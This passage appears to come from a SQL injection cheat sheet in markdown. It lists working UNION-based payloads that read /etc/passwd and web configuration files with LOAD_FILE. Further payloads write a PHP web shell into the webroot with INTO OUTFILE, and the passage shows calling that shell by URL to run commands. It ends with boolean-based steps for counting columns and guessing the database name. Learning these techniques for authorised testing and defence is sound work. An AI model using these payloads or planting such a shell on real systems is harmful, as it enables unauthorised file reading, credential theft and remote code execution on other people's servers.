       SELECT LOAD_FILE('/etc/passwd');
      
      Example:
      ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

#### Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

      ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
      ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
### Write Files Using Union SQL Injection or RCE Using SQL Injection
Example

      ' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
Web Shell Upload:

      ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
      
Basic PHP Web Shell:

      <?php system($_REQUEST['cmd']); ?>
      
OR 
      
      <?php system($_GET['cmd']); ?>
 
### For RCE , Call Uploaded Web shell 

Example :
          
          url/upload_file.php?parameter=commnad

          http://cyberteach360.com.bd/shell.php?cmd=id
# Boolean Based SQL Injection
Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.

#### Step 1:Find out actual column number

      1.admin123' UNION SELECT 1;-- 
      2.admin123' UNION SELECT 1,2,3;--
if response is true till 1,2,3 but flase in 1,2,3,4 ,the target column ***number is 3***

#### Step 2:Find out database name

      admin123' UNION SELECT 1,2,3 where database() like 'some character%';--
      example:
              admin123' UNION SELECT 1,2,3 where database() like 's%';--
 
